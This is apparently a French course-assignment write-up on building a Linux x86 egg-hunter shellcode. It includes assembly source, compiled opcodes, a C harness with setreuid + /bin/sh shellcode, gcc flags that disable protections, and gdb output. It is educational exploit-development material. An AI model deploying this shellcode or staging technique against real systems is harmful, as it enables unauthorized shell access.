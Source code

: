 # Assignement 3 #

Il s'agit dans ce troisième exercice de coder un "Egg Hunter shellcode". Il s'agit d'un technique permettant de palier au manque de mémoire necessaire à l'ajout du shellcode en mémoire. Le programme va chercher en mémoire une séquence lui indiquant qu'il se trouve au début du shellcode. Cette séquence doit être une suite d'opcodes qui ont peu de chance d'être contigues afin de pouvoir le retrouver facilement. Etant sur une architecture 32 bits nous allons utiliser une clé (Egg Key) de 4 octets.

Afin d'améliorer les chances de le trouver, il peut être conseillé de multiplier sa taille par deux.

## Définition de la clé ##

Nous allons pour cela utiliser la clé "b33fb33f".

Le egg hunter va parcourir la mémoire à la recherche de la clé précédement définie. Lors qu'il va essayer d'accéder à une zone mémoire non mappée cela va causer une erreur syst§me (SIGSEV). Il est donc necessaire de connaître une adresse accessible dans le même segment pour le shellcode et la clé.

```c
[egg hunter][random memory][egg][egg][shellcode]
````

Nous allons pour cela créer un EggHunter qui aura pour fonction de chercher dans la mémoire la clé. Il faut pour cela s'assurer d'être dans le bon segment.

```c
; Egg Hunter Linux x86 shellcode
; Author: Alain Menelet
; Tested on ubuntu 16.04.3 LTS
; Egg Hunter stack memory


global _start

section .text

_start:
	jmp short valid

validAddress:
	
	pop eax			    ; eax contains a valid address
	mov ebx, 0x3fb33fb3	    ; egg key

_:
	inc eax			    ; increase memory
	cmp dword [eax], ebx        ; compare with the key
	jne _                       ; loop if dfferent
	jmp eax                     ; if equal jump to shellcode



valid:
	call validAddress

```

Nous compilons le tout :

```c
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";
```

Une fois cela fait nous allons modifier le programme C afin qu'il prenne en compte le shellcode, l'Egg key et l'Egg hunter.

Nous prenons le shellcode utilisé dans l'exercice 6. Il exécute un setreuid + /bin/sh.

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char egg[] = \
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";

unsigned char shellcode[] = \
"\xb3\x3f\xb3\x3f"
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

	printf("Taille de l'Egg Hhunter %d\nAdresse du Shellcode:%p\n", strlen(egg), shellcode);
	int (*ret)() = (int(*)())egg;
	ret();

return 0;
}

La compilation se fait de la même manière :

gcc -fno-stack-protector -z execstack test_egg.c -o test_egg
```

Nous testons le tout :

```c
phidia@xophidia-VirtualBox:~/Documents/Shellcode/as3$ ./test_egg 
Taille de l'Egg Hhunter 20
Adresse du Shellcode:0x804a060
$ 
```

### Détails : ###

L'egg Hunter fonctionne comme suit :
Nous voyons l'adresse obtenue lors du pop eax. Elle est valide et servira de point de départ à la recherche.

Une fois la clé trouvée, nous effectuons un saut à cette adresse soit le début du shellcode.

```c
EAX: 0x8048074 --> 0x0           ; adress valid from jum pop call technique
EBX: 0x3fb33fb3                  ; Egg key
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xbffff200 --> 0x1 
EIP: 0x8048068 (<_>:	inc    eax) ; loop while the key is not found

[-------------------------------------code-------------------------------------]
   0x804805f:	add    bl,ch
   0x8048061 <_start+1>:	or     eax,0x3fb3bb58
   0x8048066 <validAddress+4>:	mov    bl,0x3f
=> 0x8048068 <_>:	inc    eax
   0x8048069 <_+1>:	cmp    DWORD PTR [eax],ebx
   0x804806b <_+3>:	jne    0x8048068 <_>
   0x804806d <_+5>:	jmp    eax
   0x804806f <valid>:	call   0x8048062 <validAddress>


Nous observons dans la pile la clé dans egg et au début du shellcode.

gdb-peda$ x/20x 0x804a040
0x804a040 <egg>:	0xbb580deb	0x3fb33fb3	0x75183940	0xe8e0fffb
0x804a050 <egg+16>:	0xffffffee	0x00000000	0x00000000	0x00000000
0x804a060 <shellcode>:	0x3fb33fb3	0xe1f7c931	0xb099cb89	0xf780cda4
0x804a070 <shellcode+16>:	0x2f6851e1	0x6868732f	0x6e69622f	0x8951e389
0x804a080 <shellcode+32>:	0xe18953e2	0x80cd0bb0	0x00000000	0x00000000
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: 